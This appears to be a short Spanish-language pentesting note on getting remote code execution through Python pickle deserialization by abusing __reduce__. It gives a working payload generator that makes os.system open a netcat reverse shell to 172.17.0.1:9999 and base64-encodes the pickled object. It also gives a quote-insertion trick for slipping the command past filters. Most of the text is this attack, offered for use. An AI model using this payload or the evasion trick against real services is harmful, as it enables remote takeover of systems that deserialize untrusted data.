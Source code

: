 Si nos encontraramos frente a un serial realizado con pickle podríamos obtener rce aprovechando la función "__reduce__".

Documentación:

            https://docs.python.org/3/library/pickle.html#object.__reduce__

### RCE

Reduce devuelve una tupla que comprende:
- Un objeto invocable que será llamado para crear la versión inicial del objeto
- Una tupla de argumentos para el objeto invocable.

Esto quiere decir que si el objeto se encuentra serializado, al momendo de la deserialización, si el objeto tiene definida la función  reduce, será usado para reestablecer el objeto original.

Podemos abusar de esto para que devuelva un objeto invocable con parametros de ejecución de comandos.

Podríamos crear una clase que llame a reduce pidiendole que ejecute comandos en el sistema y pasandole el comando dentro de la tupla:

                        import pickle
                        import base64
                        import os
                        
                        class RCE:
                            def __reduce__(self):
                                return os.system, ("nc -nv 172.17.0.1 9999 -e /bin/sh",)
                        
                        r = RCE()
                        p = pickle.dumps(r)
                        b = base64.b64encode(p)
                        print(b.decode())

### Extra:

Podriamos encontrarnos tanto en blackbox como en whitebox que los objetos, al ser deserializados tengan filtros. Deberemos probar también medidas que permitan pasarlos. Ej:

Agregar las comillas entre los datos que plausibles de ser eliminados por los filtos:

            n''c -nv 172.17.0.1 9999 -e /bin/s''h

Más info en el módulo de command injection de este repo
